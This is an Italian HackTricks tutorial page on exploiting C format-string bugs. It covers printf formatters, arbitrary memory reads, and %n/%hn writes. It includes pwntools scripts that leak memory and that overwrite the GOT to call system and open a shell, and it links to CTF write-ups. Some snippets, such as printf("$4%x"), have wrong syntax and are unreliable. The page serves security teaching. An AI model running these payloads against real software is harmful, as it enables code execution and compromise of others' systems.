 # Format Strings

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Informazioni di base

In C **`printf`** è una funzione che può essere utilizzata per **stampare** una stringa. Il **primo parametro** che questa funzione si aspetta è il **testo grezzo con i formattatori**. I **parametri seguenti** attesi sono i **valori** da **sostituire** ai **formattatori** nel testo grezzo.

La vulnerabilità appare quando un **testo dell'attaccante viene utilizzato come primo argomento** per questa funzione. L'attaccante sarà in grado di creare un **input speciale abusando** delle capacità della **stringa di formato printf** per leggere e **scrivere qualsiasi dato in qualsiasi indirizzo (leggibile/scrivibile)**. Essere in grado in questo modo di **eseguire codice arbitrario**.

#### Formattatori:
```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```
**Esempi:**

* Esempio vulnerabile:
```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```
* Uso Normale:
```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```
* Con argomenti mancanti:
```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```
### **Accessing Pointers**

Il formato **`%<n>$x`**, dove `n` è un numero, consente di indicare a printf di selezionare il n-esimo parametro (dallo stack). Quindi, se vuoi leggere il 4° parametro dallo stack usando printf, potresti fare:
```c
printf("%x %x %x %x")
```
e potresti leggere dal primo al quarto parametro.

Oppure potresti fare:
```c
printf("$4%x")
```
e leggere direttamente il quarto.

Nota che l'attaccante controlla il parametro `pr`**`intf`**, il che significa fondamentalmente che** il suo input sarà nello stack quando viene chiamato `printf`, il che significa che potrebbe scrivere indirizzi di memoria specifici nello stack.

{% hint style="danger" %}
Un attaccante che controlla questo input sarà in grado di **aggiungere indirizzi arbitrari nello stack e far accedere `printf` a essi**. Nella sezione successiva verrà spiegato come utilizzare questo comportamento.
{% endhint %}

## **Lettura Arbitraria**

È possibile utilizzare il formattatore **`$n%s`** per far sì che **`printf`** ottenga l'**indirizzo** situato nella **n posizione**, seguendolo e **stamparlo come se fosse una stringa** (stampa fino a quando non viene trovato un 0x00). Quindi, se l'indirizzo base del binario è **`0x8048000`**, e sappiamo che l'input dell'utente inizia nella quarta posizione nello stack, è possibile stampare l'inizio del binario con:
```python
from pwn import *

p = process('./bin')

payload = b'%6$p' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
{% hint style="danger" %}
Nota che non puoi mettere l'indirizzo 0x8048000 all'inizio dell'input perché la stringa verrà tagliata a 0x00 alla fine di quell'indirizzo.
{% endhint %}

## **Scrittura Arbitraria**

Il formatter **`$<num>%n`** **scrive** il **numero di byte scritti** nell'**indirizzo indicato** nel parametro \<num> nello stack. Se un attaccante può scrivere quanti più caratteri possibile con printf, sarà in grado di far scrivere a **`$<num>%n`** un numero arbitrario in un indirizzo arbitrario.

Fortunatamente, per scrivere il numero 9999, non è necessario aggiungere 9999 "A" all'input; per farlo è possibile utilizzare il formatter **`%.<num-write>%<num>$n`** per scrivere il numero **`<num-write>`** nell'**indirizzo puntato dalla posizione `num`**.
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
Tuttavia, nota che di solito per scrivere un indirizzo come `0x08049724` (che è un numero ENORME da scrivere tutto in una volta), **si usa `$hn`** invece di `$n`. Questo consente di **scrivere solo 2 Byte**. Pertanto, questa operazione viene eseguita due volte, una per i 2B più alti dell'indirizzo e un'altra volta per i più bassi.

Pertanto, questa vulnerabilità consente di **scrivere qualsiasi cosa in qualsiasi indirizzo (scrittura arbitraria).**

In questo esempio, l'obiettivo sarà **sovrascrivere** l'**indirizzo** di una **funzione** nella tabella **GOT** che verrà chiamata in seguito. Anche se questo potrebbe abusare di altre tecniche di scrittura arbitraria per eseguire:

{% content-ref url="../arbitrary-write-2-exec/" %}
[arbitrary-write-2-exec](../arbitrary-write-2-exec/)
{% endcontent-ref %}

Stiamo per **sovrascrivere** una **funzione** che **riceve** i suoi **argomenti** dall'**utente** e **puntarla** alla **funzione** **`system`**.\
Come accennato, per scrivere l'indirizzo, di solito sono necessari 2 passaggi: **prima scrivi 2Byte** dell'indirizzo e poi gli altri 2. Per farlo si usa **`$hn`**.

* **HOB** è chiamato ai 2 byte più alti dell'indirizzo
* **LOB** è chiamato ai 2 byte più bassi dell'indirizzo

Poi, a causa di come funziona la stringa di formato, devi **scrivere prima il più piccolo** di \[HOB, LOB] e poi l'altro.

Se HOB < LOB\
`[address+2][address]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

Se HOB > LOB\
`[address+2][address]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Modello Pwntools

Puoi trovare un modello per preparare un exploit per questo tipo di vulnerabilità in:

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

O questo esempio di base da [**qui**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite):
```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```
## Altri Esempi & Riferimenti

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html)
* 32 bit, no relro, no canary, nx, no pie, uso base delle stringhe di formato per leakare il flag dallo stack (non è necessario alterare il flusso di esecuzione)
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
* 32 bit, relro, no canary, nx, no pie, stringa di formato per sovrascrivere l'indirizzo `fflush` con la funzione win (ret2win)
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html)
* 32 bit, relro, no canary, nx, no pie, stringa di formato per scrivere un indirizzo dentro main in `.fini_array` (così il flusso torna indietro 1 volta in più) e scrivere l'indirizzo a `system` nella tabella GOT puntando a `strlen`. Quando il flusso torna a main, `strlen` viene eseguito con input dell'utente e puntando a `system`, eseguirà i comandi passati.

{% hint style="success" %}
Impara e pratica AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}
